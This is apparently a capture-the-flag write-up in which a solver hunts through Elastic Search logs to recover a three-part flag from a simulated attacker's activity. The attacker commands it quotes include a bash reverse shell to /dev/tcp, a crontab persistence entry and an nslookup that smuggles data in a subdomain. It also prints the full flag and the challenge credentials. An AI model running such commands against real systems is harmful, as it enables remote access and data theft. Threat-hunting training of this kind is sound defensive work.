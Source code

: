 # E221

## Description

Our SOC was going into an audit session today, Miss liz-keen wanted to test our analysts threat hunting skills.
Can you help hunting the 3 parts of the flag?
Credentials: ctf-player:ctf-player

Author: 4NG3L

## Solution

- We are going to investigate a huge number of logs obtained using Elastic Search, the first think you will think to do is to see the users that had authenticated in this system, I thought that we need to take a look to the behavior of the user **liz-keen** 
- I tried to list the commands executed by this user ( `user.name: "liz-keen" and process.command_line: *` ), and I found the execution of a reverse shell multiple times ( `/bin/bash -c /bin/bash -i >& /dev/tcp/RED/1337 0>&1`) which confirms out doubts.
- I searched for some famous commands that would be executed by any attacker like ls, cat, find ... until I tried this query `user.name: "liz-keen" and process.command_line: *echo*`. The attacker tried here to execute some command after decoding it from base64 which was the first part of the flag also ( `/home/liz-keen/.../sh, -c, echo 'bmV4dXN7b2hfNG5BTHkkdF8'`)
- I noticed that the cron command is repeated a lot ( used to achieve persistence in the system ), I filtered by this command as it is very suspicious, after reducing the number of events that are meant to mislead us, and I got the third part of the flag: `crontab aW52M3NUSUc0dDNfUjNQMHJ0fQ`
- I tried other commands also, I thought about created files or dowloaded files, I filtered the events a little bit by execluding the misleading onces until I got a command that was trying to fetch something from a dns record of some domain, the second part of the flag was its **subdomain**: `nslookup 74494d336c314e655f71754552595f.reddington`

`nexus{oh_4nALy$t_tIM3l1Ne_quERY_inv3sTIG4t3_R3P0rt}`
